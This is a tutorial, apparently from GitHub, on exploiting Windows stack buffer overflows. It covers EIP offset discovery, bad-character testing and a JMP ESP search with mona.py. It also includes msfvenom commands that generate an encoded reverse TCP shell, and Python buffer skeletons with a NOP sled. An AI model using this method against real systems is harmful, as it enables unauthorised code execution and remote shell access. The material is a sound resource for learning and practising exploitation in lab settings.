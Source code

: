 # BOF Exploitation


## 1. Replicating the crash

Once the vulnerability is discovered, we need to find the way to control the EIP. In this moment, the objective is to rewrite the fuzzer script that crashes the app with a fixed length (without loop). Let's say 800 bytes.

_____

## 2. Controlling EIP

The crucial step here is to find which part of our buffer (800 bytes) is landing in the EIP register. To do this, there are two common ways to do it:

#### 2.1 Binary Tree Analysis (slowest)

This method requires sending the buffer with half of it being A's and the other half being B's (AAAAA...BBBBB). If the EIP register is overwritten by B's, we know the EIP is inside the second half. We now take this half and split in two parts, left part being B's and the right part being C's. The process continues until we find the exact four bytes that overwrite EIP.

#### 2.2 Patterns (faster)

The point here is to create a long string that consists of non-repeated 4 bytes as the fuzzing data. Once the EIP is overwritten with these 4 bytes, we can identify where exactly happened using various tools.

```bash
#Creating the string with a length of 800 bytes:
msf-pattern_create -l 800
```

At this point, copy the value of the EIP register and execute the following command to extract the exact offset:

```bash
#-l is the length of the original string:
msf-pattern_offset -l 800 -q 42306142
```

Once identified the offset, we can execute a test by using A's for the offset, B's for 4 EIP bytes and C's for the rest. If the EIP is 0x42424242 we are good!

```python
filler = "A" * 780
eip = "B" * 4
buffer = "C" * 16
```
_____

## 2.3 Locating space for Shellcode

Looking at the last crash we made we can see that the ESP register points to our buffer of C's (but 4 bytes after).

Knowing that shellcodes have a size of 350-400 bytes approximately, we can increment our script with an additional 700 bytes to see if it allows enough space for our shellcode without breaking the buffer overflow:

```python
filler = "A" * 780
eip = "B" * 4
buffer = "C" * 4
shellcode = "D" * 700
```

Once the script is executed again, the ESP register should point to our shellcode placeholder (full of D's).

**Note that ESP address changes everytime we run the exploit.**

_____

## 2.4 Checking for Bad Characters

> A bad character is simply a list of unwanted characters that can break the shell codes. There is no universal set of bad characters, as we would probably be beginning to understand, but depending on the application and the developer logic there is a different set of bad characters for every program that we would encounter. Therefore, we will have to find out the bad characters in every application before writing the shell code.

Some of the very common bad characters are:

```
0x00 for NULL
0x0A for Line Feed
0x0D for Carriage Return
0xFF for Form Feed
```

A way to check which characters are bad for a particular exploit is to send all possible characters, from 0x00 to 0xFF, as part of the buffer and see how the application deals with it.

In order to test in our example, we can add them as our shellcode placeholder:

```python
filler = "A" * 780
eip = "B" * 4
buffer = "C" * 4
shellcode = "\x00\x01\x02\x03.....\xff"
```

After executing the script we need to right-click on the ESP register and click "Follow in Dump" and see which character is truncating our shellcode. We note that, delete it from the shellcode, and continue until the last character (xff).

_____

## 2.5 Redirecting the Execution Flow

We know that our shellcode is placed at the address pointed in the ESP register. Now we need a way to get that code executed. One way is to leverage a JMP ESP (which will "jump" into the address pointed in ESP).

We can find this JMP ESP instruction in the many Windows libraries, but needs some criteria:

1. Adresses used in the library must be static.
2. The address of the instruction must not contain bad characters.

### Using mona.py

To begin with our return address search we will use mona.py. In order to request information from all the DLLs or modules loaded by the application into the proccess memory, execute the following syntax in the bottom of Inmunity Debugger:


```
!mona modules
```

In this screen we should find a dll or module that have the flags from SEH, ASLR and NXCompact on false (those are for security purposes) and remember that **the address must not have bad chars.**

Once found, we need to find the address of a JMP ESP instruction within this module. To do this, first translate the instruction (JMP ESP) to opcode (hexadecimal):

```bash
#Using metasploit:
msf-nasm_shell
jmp esp
#Take the Hexadecimal values
```

Now, search for it inside the module with mona:

```bash
#Change "\xff\xe4" with the correct opcode:
!mona find -s "\xff\xe4" -m "$MODULENAME"
```

Now mona should show the address fo the JMP ESP instruction. Remember that **the address must not have bad chars.**

If the address is ok and we redirect the EIP register to this address at the crash, the JMP ESP instruction will be executed and the program will execute our shellcode.

To do this, add the address in little endian format to our eip script:

```python
filler = "A" * 780
eip = "\x00\x00\x00\x00" #Change this for the little-endian values
buffer = "C" * 4
shellcode = "D" * 700
```

_____

## 2.6 Generating Shellcode

We can use metasploit msfvenom in order to generate our shellcode.

```bash
#List all types of shellcode:
msfvenom -l payloads
#Generate reverse TCP shell using C format (-f):
msfvenom -p windows/shell_reverse_tcp LHOST=$IPADDRESS LPORT=$PORT -f c
```

Note that the shellcode provided by msfvenom may contain bad chars. If this is the case, we need to encode it by using the following technique:

```bash
#-e: Specify the encode to use.
#-b: Specify the bad characters we don't want.
msfvenom -p windows/shell_reverse_tcp LHOST=$IPADDRESS LPORT=$PORT -f c -e x86/shikata_ga_nai -b "\x00\x00\x00\x00"
```

However, if the application contain lots of badchars, we just leave msfvenom without specifying any encode (-e) and it will itself generate one with a valid encoder.

In case the app supports threaded mode, we can use the EXITFUNC flag of msfvenom in order to prevent the crash of the application once the reverse shell is closed:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$IPADDRESS LPORT=$PORT EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x00\x00\x00"
```
_____

## Getting a reverse shell

In order to get a reverse shell, we only need to change our buffer of D's with the shellcode provided by msfvenom:

```python
filler = "A" * 780
eip = "\x00\x00\x00\x00" #Change this for the little-endian values
buffer = "C" * 4
shellcode = "\x00\x00.....\x00" #Change this wtih the correct shellcode
```

However, if we used some encoding technique in order to remove bad chars, we need to **add some NOPs (\x90)** before the shellcode because the process of decoding the shellcode will override a few bytes from the top of the stack (which is where our shellcode is placed). The final form of the script will be:

```python
filler = "A" * 780
eip = "\x00\x00\x00\x00" #Change this for the little-endian values
buffer = "C" * 4
nops = "\x90" * 10
shellcode = "\x00\x00.....\x00" #Change this wtih the correct encoded shellcode.
```
